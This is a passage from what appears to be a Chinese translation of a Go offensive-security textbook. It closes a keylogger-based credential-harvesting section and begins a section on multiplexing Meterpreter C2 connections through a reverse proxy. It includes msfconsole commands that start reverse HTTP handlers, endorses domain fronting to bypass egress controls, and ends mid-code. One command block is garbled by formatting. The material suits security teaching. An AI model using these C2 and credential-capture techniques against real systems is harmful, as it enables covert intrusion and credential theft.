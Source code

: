 ```text
成功了，能正常工作了。输出中列出了在填写登录表单时按下的每个按键。在本例中，这是一组用户凭证。如果有问题的话，检查下命令行参数中的地址是否正确。此外，如果试图从 `localhost:8080` 以外的服务中调用 `k.js`，那么需要调整下HTML文件。

有几种方式可以改善代码。第一，可以把日志输出到文件中或其他持久存储中，而不是在终端输出。这样就不会在终端关闭或服务重启后丢失数据。此外，如果同时记录多个客户端的按键，输出的数据将会混淆，这可能会使拼凑特定用户的凭证变得困难。可以使用更好的方式来避免这种情况，例如，根据唯一的客户端/端口源将键击分组。

凭证收集这一部分到这就完成了。我们将通过介绍多路复用HTTP的命令和控制连接来结束本章。

## 多路复用C2

这是HTTP服务器章节的最后一部分。在这里将了解如何将Meterpreter HTTP连接多路复用到不同的后端控制服务器。*Meterpreter* 是Metasploit开发框架中流行的，灵活的命令与控制（C2）套件。我们不会过多的介绍Metasploit或Meterpreter的细节。对于新手的话，最好通读下网站上的教程或文档。

在本节中，将介绍如何在Go中创建反向HTTP代理，以便能根据Host的HTTP报头（这是虚拟网站托管的工作方式）来动态路由收到的session。但是，把代理连接到不同的Meterpreter监听器，而不是提供不同的本地文件和目录。这是一个有趣的用例，原因如下。

首先，代理充当重定向器，这样就可以只公开该域名和IP地址，而不公开Metasploit监听器。如果重定向器被拉黑，可以简单地移除掉，而不用动C2服务器。第二，可以扩展这里的概念来执行 *domain fronting*，是一种利用信任的第三方域名（通常来自云提供商）绕过限制性出口控制的一种技术。我们不会在这里讨论一个完整的例子，但还是强烈建议深入研究下，因为它非常有用，能退出受限制的网络。最后，使用例子来演示如何在可能攻击不同目标组织的联合团队之间共享单个主机/端口组合。由于端口80和443是最可能允许访问的端口，可以让代理监听这些端口，并智能地将链接路由到正确的监听器。

这是计划。设置两个单独的Meterpreter反向HTTP侦听器。在本例中个，它们安装在IP地址为10.0.1.20的虚拟机中，但是它们很可能存在于不同的主机上。将监听器分别绑定到10080 到 20080端口。在真实的情况下，这些监听器可以运行在任何地方，只要代理能访问到这些端口。确保已经安装了Metasploit(在Kali Linux上是预先安装了的)；然后启动监听器：

```shell script
$ msfconsole
> use exploit/multi/handler
> set payload windows/meterpreter_reverse_http
> set LHOST 10.0.1.20 > set LPORT 80
> set ReverseListenerBindAddress 10.0.1.20 > set ReverseListenerBindPort 10080
> exploit -j -z
[*] Exploit running as background job 1.

[*] Started HTTP reverse handler on http://10.0.1.20:10080
```

当启动监听器时，提供代理数据作为 `LHOST` 和 `LPORT` 的值。然而，设置高级选项 `ReverseListenerBindAddress` 和 `ReverseListenerBindPort` 为监听器启动的真实的IP和端口，这为提供了一些端口使用的灵活性，同时允许明确地标识出代理主机——可以是主机名，例如，设置为域前置。

在第二个Metasploit实例中，执行类似的操作，在端口20080上启动一个额外的监听器。真正唯一不一样的地方是绑定了不同的端口：

\`\`\`shell script $ msfconsole

> use exploit/multi/handler set payload windows/meterpreter\_reverse\_http &gt; set LHOST 10.0.1.20 set LPORT 80 set ReverseListenerBindAddress 10.0.1.20 set ReverseListenerBindPort 20080 exploit -j -z \[\*\] Exploit running as background job 1.

\[\*\] Started HTTP reverse handler on [http://10.0.1.20:20080](http://10.0.1.20:20080)

```text
现在来创建反向代理。代码4-10是完整的代码。

```go
package main

import (
    "log"
    "net/http"
    "net/http/httputil"
    "net/url"

    "github.com/gorilla/mux"
)

var (
    hostProxy = make(map[string]string)
    proxies   = make(map[string]*httputil.ReverseProxy)
```